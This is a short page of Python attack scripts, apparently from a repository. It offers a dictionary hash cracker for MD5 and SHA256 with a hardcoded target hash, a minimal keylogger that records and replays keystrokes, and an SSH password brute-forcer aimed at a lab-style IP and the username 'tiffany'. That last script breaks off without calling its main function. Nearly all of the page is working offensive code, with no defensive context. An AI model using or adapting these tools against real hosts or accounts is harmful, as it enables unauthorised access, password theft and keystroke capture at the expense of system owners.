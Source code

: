 ### Hash cracker

```python
import hashlib

def main(hash,wordlist,format) :
	with open(wordlist) as w :
		passwds = w.read()
	passwds = passwds.split("\n")
	for password in passwds :
		if format == 'SHA256' :
			tmp_hash = hashlib.sha256(password.encode()).hexdigest()
			if tmp_hash == hash :
				print(f"hash cracked, password found : {password}")
				exit()
		elif format == 'MD5' :
			tmp_hash = hashlib.md5(password.encode()).hexdigest()
			if tmp_hash == hash :
				print(f"hash cracked, password found : {password}")
				exit()
	print("Hash not cracked")
  
if __name__ == '__main__' :
	hash = 'cd13b6a6af66fb774faa589a9d18f906'
	format = 'MD5'
	wordlist = "./wordlist2.txt"
	main(hash,wordlist,format)
```

### Keylogger

```python
import keyboard
keys = keyboard.record(until ='ENTER')
# for key in keys :
#	  print(key)
keyboard.play(keys)
```

### SSH Bruteforcer

```python
import paramiko

def main(target,port,username, wordlist) :
	ssh = paramiko.SSHClient()
	ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	with open(wordlist) as w :
		content = w.read()
	passwords = content.split("\n")
	for password in passwords :
		try :
			ssh.connect(target,port=port,username=username,password=password)
			print(f"Password found for user {username} : {password}")
			exit()
		except :
			print(f"Auth failed with {username}:{password}")
			pass
		ssh.close()
	print(f"No password found for user {username}")

if __name__ == '__main__' :
	target = "10.10.168.28"
	port = 22
	username = "tiffany"
```